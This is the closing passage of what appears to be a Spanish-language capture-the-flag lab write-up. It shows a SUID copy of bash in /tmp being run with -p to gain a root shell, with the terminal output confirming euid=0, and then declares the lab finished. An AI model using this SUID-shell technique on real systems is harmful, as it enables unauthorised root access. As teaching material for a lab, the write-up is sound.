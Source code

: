 Esperamos un minuto y obtenemos una bash con SUID. La utilizamos y elevamos privilegios a root.

```bash
luigi@22ae1bc1f511:/home/luigi$ ls -la /tmp/b
-rwsr-sr-x 1 root root 1183448 Feb  2 01:17 /tmp/b
luigi@22ae1bc1f511:/home/luigi$ /tmp/b -p
b-5.0# id
uid=1000(luigi) gid=0(root) euid=0(root) groups=0(root)
b-5.0# 
```

Laboratorio terminado, espero que les haya gustado o aprendido algo.
